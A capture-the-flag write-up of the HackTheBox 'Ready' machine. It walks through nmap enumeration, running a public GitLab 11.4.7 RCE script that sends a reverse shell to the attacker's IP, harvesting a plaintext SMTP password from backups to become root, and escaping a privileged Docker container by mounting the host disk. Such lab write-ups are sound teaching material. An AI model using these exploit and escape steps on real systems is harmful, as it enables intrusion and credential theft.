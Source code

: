 ```yaml
---
title: "HackTheBox - Ready"
author: Nasrallah
description: ""
date: 2023-05-19 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, medium, docker, rce, cve]
img_path: /assets/img/hackthebox/machines/ready
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [ready](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

![](0.png)

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.220
Host is up (0.65s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
5080/tcp open  http    nginx
|_http-title: GitLab is not responding (502)
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have OpenSSH on port 22 and Nginx on port 5080 and nmap tells us it's `Gitlab`.

## Web

Let's check the web page.

![](1.png)

We got redirected to a login page, we don't have any credentials so let's register a user.

![](2.png)

I've heard before of `Gitlab` having some vulnerabilities so i went to the help page to check the version of it.

![](3.png)

It's version 11.4.7, let's see if it has any vulns.

```terminal
$ searchsploit gitlab 11.4  
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
GitLab 11.4.7 - RCE (Authenticated) (2)                                                                                     | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authenticated) (1)                                                                   | ruby/webapps/49257.py
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

This version is vulnerable to remote code execution.

# **Foothold**

I tried multiple exploits but the one that worked for me is this [one](https://github.com/Algafix/gitlab-RCE-11.4.7).

Let's run the exploit.

```bash
python3 rce_script.py -u sirius -p password123 -g http://10.10.10.220:5080/ -l 10.10.17.90 -P 9001 bash
```

![](4.png)

Great! We got a shell.

# **Privilege Escalation**

The machine we're in is a docker container, so we need to escape it somehow.

On the /opt directory we find a backup directory.

```terminal
git@gitlab:/var$ cd /opt                                                                                                                                      git@gitlab:/opt$ ls -al
total 24                                                                                                                                                      
drwxr-xr-x 1 root root 4096 Apr  5  2022 .                              
drwxr-xr-x 1 root root 4096 Apr  5  2022 ..                                                                                                                   
drwxr-xr-x 2 root root 4096 Apr  5  2022 backup             
drwxr-xr-x 1 root root 4096 Apr  5  2022 gitlab         
```

Let's search recursively for password in the `backup` dir.

```terminal
git@gitlab:/opt/backup$ grep -Ri pass ./
./gitlab.rb:#### Email account password   
./gitlab.rb:# gitlab_rails['incoming_email_password'] = "[REDACTED]"
[snip]
./gitlab.rb:# gitlab_rails['redis_password'] = nil
./gitlab.rb:gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
./gitlab.rb:# gitlab_shell['http_settings'] = { user: 'username', password: 'password', ca_file: '/etc/ssl/cert.pem', ca_path: '/etc/pki/tls/certs', self_sign
ed_cert: false}
[snip]
./docker-compose.yml:        gitlab_rails['initial_root_password']=File.read('/root_pass')
./docker-compose.yml:      - './root_pass:/root_pass'
```

We found `smtp` password, let's see if it works for root.

```terminal
git@gitlab:~/gitlab-rails/working$ su root                                                                                                                    
Password:                                                                                                                                                     
root@gitlab:/var/opt/gitlab/gitlab-rails/working#
```

Nice, we got root on the container, but we still need to escape it.

On the `docker-compose.yml` file, which is what defines the current container, we find the following line `privileged: true` which means that this docker container has root privileges over the host system and one of the things we can do is to see the host drive with a command like `fdisk -l`.

```terminal
root@gitlab:/opt/backup# fdisk -l
Disk /dev/loop0: 55.4 MiB, 58052608 bytes, 113384 sectors
Units: sectors of 1 * 512 = 512 bytes
[snip]
Device        Start      End  Sectors  Size Type
/dev/sda1      2048     4095     2048    1M BIOS boot
/dev/sda2      4096 19920895 19916800  9.5G Linux filesystem
/dev/sda3  19920896 20969471  1048576  512M Linux swap 
```

The drive we're after is `/dev/sda2` which is the host system.

Now we can use `mount` to mount the drive in the container.

```bash
mount /dev/sda2 /mnt
```

![](5.png)

And just like that we have the host file system in our hands.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).